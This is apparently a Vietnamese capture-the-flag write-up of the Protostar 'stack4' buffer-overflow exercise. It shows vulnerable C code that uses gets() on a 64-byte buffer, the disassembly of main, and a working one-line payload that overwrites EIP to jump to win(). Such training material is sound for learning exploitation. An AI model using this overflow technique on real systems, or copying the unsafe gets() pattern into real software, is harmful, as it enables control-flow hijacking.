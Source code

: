 # stack4

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Bài này cũng không có gì khó. Ghi địa chỉ hàm win vào EIP là được.
![cyclic](cyclic.png)

Mình sử dụng pwndbg + cyclic để tìm ra padding, hoặc bạn có thể từ hàm main để tính.

```ASM (intel syntax)
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
   0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave  
   0x0804841e <+22>:    ret
```

## Solution

Dùng Gdb hoặc objdump ta có địa chỉ của hàm win: `0x080483f4`

payload:`python -c 'print "a"*76 +"\xf4\x83\x04\x08"' | ./stack4`

![solution](solution.png)

